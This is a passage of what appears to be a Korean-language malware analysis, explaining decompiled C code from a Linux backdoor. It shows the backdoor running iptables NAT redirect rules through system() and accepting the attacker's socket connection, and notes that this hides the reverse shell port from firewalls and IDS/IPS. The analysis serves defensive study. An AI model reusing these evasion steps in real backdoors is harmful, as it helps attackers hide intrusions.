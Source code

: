     ```c
    memset(cmd, 0, sizeof(cmd));
    snprintf(cmd, sizeof(cmd), cmdfmt, ip, fromport, toport);
    snprintf(rcmd, sizeof(rcmd), rcmdfmt, ip, fromport, toport);
    system(cmd);
    sleep(1);
    ```

    - 512 크기의 char 배열 `cmd`와 `rcmd`에 `cmdfmt`, `rcmdfmt`를 저장하고, 포맷스트링 변수에 `ip`, `fromport`, `toport` 전달한다.
    - `cmdfmt` - `cmd`

        ```
        /sbin/iptables -t nat -A PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d
        ```

        - 공격자가 연결 요청하는 포트(첫 번째 `%d` - `fromport` 변수)를 로컬에서 임의로 선택한 포트(두 번째 `%d` - `toport` 변수)로 리다이렉트 한다.
    - `rcmdfmt` - `rcmd`

        ```
        /sbin/iptables -t nat -D PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d
        ```

        - 앞에서 설정한 리다이렉션 NAT 규칙을 제거하기 위한 명령이다.
    - `system()`을  호출하여 iptables를 이용하여 공격자가 연결을 요청한 포트를 앞에서 수행한 `b` 함수에서 임의로 선택하고 연결한 포트로 내부에서 리다이렉션 하도록 설정한다. 이런 방식은 **reverse shell 포트가 외부에 직접 노출되지 않아 방화벽/IDS/IPS 탐지를 우회할 수 있게 된다.**

    <br>

    > **iptables**
    >
    > 리눅스 시스템에서 방화벽을 설정하는 도구로서, 네트워크 패킷을 필터링하거나 변경하는 등의 기능을 수행한다. 특정 조건을 가지고 있는 패킷에 대해 허용(ACCEPT)와 차단(DROP) 등을 지정할 수 있으며, 특정 조건 등을 통해 다양한 방식의 패킷 필터링과 처리 방식을 지원한다.
    {: .prompt-warning }

5. **클라이언트 소켓 생성**

    ```c
    sock = w(sockfd);
    if( sock < 0 ){
        close(sock);
        return;
    }
    ```

    - `w` 함수를 통해 생성한 **연결 소켓** fd를 sock 변수에 할당한다.
    - `w` 함수

        ```c
        size = sizeof(struct sockaddr_in);
        if( (sock_id = accept(sock,(struct sockaddr *)&remote_addr, &size)) == -1 ){
                return -1;
        }
        ```

        - `accept` 함수를 통해 이전에 생성했던 `sock` 소켓으로의 클라이언트 요청을 수락하고, 통신을 위한 클라이언트 소켓(연결 소켓)을 생성하여 fd를 저장한다. `accept` 함수는 연결 요청이 있을 때까지 함수 실행이 block 된다.
        - `b` 함수가 설정한 리스닝 소켓을 통해 실제 공격자의 연결을 기다리고 수락하는 역할을 한다.
